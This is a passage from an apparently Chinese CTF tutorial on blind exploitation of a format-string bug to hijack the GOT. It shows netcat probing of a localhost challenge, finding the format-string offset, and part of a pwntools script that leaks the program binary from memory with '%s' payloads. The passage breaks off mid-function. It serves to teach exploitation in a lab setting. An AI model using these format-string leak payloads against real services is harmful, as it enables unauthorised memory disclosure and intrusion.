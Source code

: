 ### 例子2-盲打劫持got

源码以及部署文件均已经在 blind\_fmt\_got 文件夹中。

#### 确定程序位数

通过简单地测试，我们发现这个程序是格式化字符串漏洞函数，并且程序为 64 位。

```shell
➜  blind_fmt_got git:(master) ✗ nc localhost 9999
%p
0x7fff3b9774c0
```

这次啥也没有回显，又试了试，发现也没啥情况，那我们就只好来泄露一波源程序了。

#### 确定偏移

在泄露程序之前，我们还是得确定一下格式化字符串的偏移，如下

```shell
➜  blind_fmt_got git:(master) ✗ nc localhost 9999
aaaaaaaa%p%p%p%p%p%p%p%p%p
aaaaaaaa0x7ffdbf920fb00x800x7f3fc9ccd2300x4006b00x7f3fc9fb0ab00x61616161616161610x70257025702570250x70257025702570250xa7025
```

据此，我们可以知道格式化字符串的起始地址偏移为 6。

#### 泄露binary

由于程序是64位，所以我们从 0x400000 处开始泄露。一般来说有格式化字符串漏洞的盲打都是可以读入 '\x00' 字符的，，不然没法泄露怎么玩，，除此之后，输出必然是 '\x00' 截断的，这是因为格式化字符串漏洞利用的输出函数均是 '\x00' 截断的。。所以我们可以利用如下的泄露代码。

```python
##coding=utf8
from pwn import *

##context.log_level = 'debug'
ip = "127.0.0.1"
port = 9999


def leak(addr):
    # leak addr for three times
    num = 0
    while num < 3:
        try:
            print 'leak addr: ' + hex(addr)
            sh = remote(ip, port)
            payload = '%00008$s' + 'STARTEND' + p64(addr)
            # 说明有\n，出现新的一行
            if '\x0a' in payload:
                return None
            sh.sendline(payload)
            data = sh.recvuntil('STARTEND', drop=True)
            sh.close()
            return data
        except Exception:
            num += 1
            continue
    return None

def getbinary():
	addr = 0x400000
	f = open('binary', 'w')
	while addr < 0x401000:
		data = leak(addr)
```